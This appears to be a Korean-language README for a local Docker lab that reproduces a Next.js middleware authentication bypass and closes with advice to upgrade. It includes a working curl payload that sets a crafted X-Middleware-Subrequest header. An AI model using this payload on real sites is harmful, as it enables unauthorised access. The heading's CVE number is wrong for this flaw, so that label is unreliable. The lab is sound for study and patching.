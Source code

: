 # CVE-2017-7529

> [Github (@j93es)](https://github.com/j93es)

> [blog](https://j93.es)

<br/>

### 요약

아래 Nextjs 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다.

- \> 11.1.4 < 12.3.5
- \> 14.0 <14.2.25
- \> 15.0 <15.2.3
- \>= 13.0.0, < 13.5.9

<br/>

### 환경 구성 및 실행

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

### 결과

#### 정상적인 요청

```sh
curl -v http://localhost:8001/
```

![normal](./asset/normal.png)

#### 취약한 요청

```sh
curl -v http://localhost:8001/ -H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

![normal](./asset/vuln.png)

수신된 html 요청의 전문은 `./asset/bypassed.html`에서 확인 가능합니다.

<br/>

### 정리

Nextjs 특정 버전에서 `x-middleware-subrequest`헤더에 특정 값을 추가하여 요청 시, middleware의 인증검사가 우회됩니다. 15.2.2에서는 `X-Middleware-Subrequest`에 `middleware:middleware:middleware:middleware:middleware`로 요청 시에 middleware의 인증검사가 우회됩니다. 따라서 최신 버전의 Nextjs로 업데이트해야합니다.
